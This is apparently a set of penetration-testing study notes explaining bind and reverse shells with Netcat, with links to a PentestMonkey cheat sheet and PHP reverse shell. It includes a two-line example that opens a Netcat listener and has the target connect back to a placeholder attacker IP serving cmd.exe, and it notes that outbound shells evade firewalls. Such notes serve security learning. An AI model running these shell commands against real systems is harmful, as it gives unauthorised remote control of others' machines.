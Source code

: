 # Shells

Hacking Tutorial: [Bind & Reverse Shells](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)

## Contents
- [Reverse Shells](#reverse-shells)
  - [Explanation](#)
  - [Example](#)
  - [Resources](#)
- [Bind Shells](#bind-shells)
  - [Explanation](#)
  - [The Problem](#)
  - [The Solution](#)

## Reverse Shells
![Netcat-reverse-shell](https://github.com/GregKedrovsky/Hacking/assets/26492233/0c7173d5-91a6-4c45-b49a-8b8251dd327d)

### Explanation
- A reverse shell is a type of remote shell where the target connects back to a listener on the attacker's machine, consequently allowing for execution of commands on the target system. 
- You will use reverse shells 95% of the time
- With a reverse shell you do not necessarily need Netcat on the target. You just need a connection from the target back to the Netcat listener on the attack machine.
- Reverse shells also are harder to detect since the traffic is outbound from the target (and not inbound; most firewalls block inbound traffic).

### Example
```
nc -nvlp 1234                            # listener, on attack machine
nc -nv [attack ip] [port#] -e cmd.exe    # from target machine, Windows
```

### Resources
- [PentestMonkey Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- PentestMonkey Reverse Shell Example: PHP Reverse Shell ( [instructions](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) | [download](https://github.com/pentestmonkey/php-reverse-shell) )

## Bind Shells
![Netcat-bind-shell](https://github.com/GregKedrovsky/Hacking/assets/26492233/e632e39e-24ee-46fd-a510-2bbb0f6e3077)

### Explanation
- A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system.
  - This allows the execution of commands on the target system.
- A Netcat listener can be set up on the target to execute a specific executable like `cmd.exe` (or `powershell.exe`) or `/bin/bash` when the client (attacker) connects to the listener.

### The Problem
- The first problem with bind shells is getting Netcat on the target system and then using it to spin up a listener (on the target system).
- Secondly, most modern operating systems typically block inbound traffic using a firewall.

### The Solution
- Use a reverese shell because with a reverse shell, the rules are switched.
  - The attack machine sets up the listener.
  - You connect from the target machine, outbound, to the attack machine.
  - Outbound traffic is often less scrutinized than inbound traffic.
- And the result is the same: shell access to the target.
